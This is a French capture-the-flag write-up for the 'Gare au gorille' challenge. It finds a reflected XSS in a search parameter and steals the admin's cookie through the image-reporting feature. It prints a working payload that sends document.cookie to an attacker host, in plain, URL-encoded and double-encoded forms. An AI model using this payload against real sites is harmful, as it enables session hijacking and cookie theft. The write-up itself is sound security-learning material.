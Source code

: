 # Gare au gorille

## Enoncé
J'ai construit un site sans prétention pour stocker ma collection de memes !

## Découverte
En naviguant sur le site, on trouve plusieurs choses : 
- l'url /flag correspondant au bouton "Ajouter un meme" qui n'est accesible que par l'admin
- une fonction de recherche par le paramètre /?search=
- une fonction de signaler certaines images à l'admin

## Réflexion
La construction de site présente laisse penser qu'on doit s'attendre à une XSS et éventuellement un vol de cookie. On teste donc le champ /?search= avec un payload POC :
`https://gare-au-gorille.france-cybersecurity-challenge.fr/?search=<script>alert("XSS")</script>`
Et bingo, on obtient bien un pop-up JavaScript qui confirme notre hypothèse.

## Exploitation
On imagine donc qu'on doit voler le cookie de l'admin en lui envoyant un payload via la fonction de signalement d'image.
### Fabrication du payload
Après quelque recherches, on trouve facilement ce payload :

```<script>var i=new Image;i.src="http://[ATTACKINGIP]"+document.cookie;</script>```

On test donc le payload sur notre propre session avec le champ de recherche : 

```https://gare-au-gorille.france-cybersecurity-challenge.fr/?search=<script>var i=new Image; i.src="http://[ATTACKINGIP]"+document.cookie;</script>```

Problème : les caractères `;` et `+` ne sont pas bien interprétés.

### Résolution de l'encodage

On modifie le payload avec l'URLencoding :

```https%3A%2F%2Fgare-au-gorille.france-cybersecurity-challenge.fr%2F%3Fsearch%3D%3Cscript%3Evar%20i%3Dnew%20Image%3B%20i.src%3D%22http%3A%2F%2F[ATTACKINGIP]%22%2Bdocument.cookie%3B%3C%2Fscript%3E```

L'exploit fonctionne bien sur notre session.

### Envoi du payload

Après plusieurs tentatives, le payload n'est pas exécuté côté admin. On suppose donc que l'URLencode est décodé avant d'être présenté à l'admin. L'essai suivant tombe sous le sens, DOUBLE URLencoding :

```https%253A%252F%252Fgare-au-gorille.france-cybersecurity-challenge.fr%252F%253Fsearch%253D%253Cscript%253Evar%2520i%253Dnew%2520Image%253B%2520i.src%253D%2522http%253A%252F%252F[ATTACKINGIP]%2522%252Bdocument.cookie%253B%253C%252Fscript%253E```

Parfait, le cookie admin nous est renvoyé sur le serveur attaquant, plus qu'à modifier notre cookie de session et se diriger dans /flag pour résoudre le challenge.

